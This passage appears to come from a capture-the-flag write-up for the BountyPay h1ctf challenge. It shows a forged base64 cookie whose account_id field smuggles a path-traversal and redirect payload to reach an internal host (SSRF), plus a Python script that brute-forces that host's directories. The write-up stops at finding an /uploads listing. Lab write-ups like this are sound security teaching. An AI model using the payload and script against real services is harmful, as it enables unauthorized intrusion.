 All other domains aren't on the whitelist, the response contains the error message `URL NOT FOUND IN WHITELIST` or `URL must begin with either http:// or https://`.

However, visiting `https://software.bountypay.h1ctf.com/` via the API seems to work with the following base64-decoded cookie value:

```
{"account_id":"../../redirect?url=https://software.bountypay.h1ctf.com/#","hash":"de235bffd23df6995ad4e0930baac1a2"}
```

The site seems to require a login, but only accepts POST requests, which I did not manage to submit via the redirect. After giving up on that, I bruteforced directories using the following script using Seclist's `raft-small-directories.txt` wordlist:

```
import base64
import json
import requests
import sys


def submit(payload):
    url = "https://app.bountypay.h1ctf.com/statements?month=02&year=2019"
    token = { "hash": "de235bffd23df6995ad4e0930baac1a2", "account_id": f"../../redirect?url=https://software.bountypay.h1ctf.com/{payload}#" }
    cookies = { "token": base64.b64encode(json.dumps(token).encode()).decode() }
    res = requests.get(url, cookies=cookies)
    return res


def brute():
    with open("/usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt") as f:
        for line in f:
            payload = line.strip()
            res = submit(payload)
            json_data = json.loads(res.text)
            data = json_data.get("data")
            url = json_data.get("url")
            if not "404 Not Found" in data:
                print(f"[+] {url}")
                print(data)


if __name__ == "__main__":
    if len(sys.argv) < 2:
        brute()
    else:
        payload = sys.argv[1]
        res = submit(payload)
        print(res.status_code, res.text)
```

After running the script for a short time, I got a directory listing under `/uploads`:
